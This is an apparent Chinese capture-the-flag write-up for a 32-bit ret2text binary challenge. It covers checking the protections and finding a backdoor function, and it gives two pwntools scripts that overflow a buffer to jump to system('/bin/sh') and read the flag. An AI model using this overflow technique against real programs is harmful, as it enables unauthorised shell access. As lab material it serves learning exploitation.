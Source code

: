 # ret2text 32

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 逆向

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
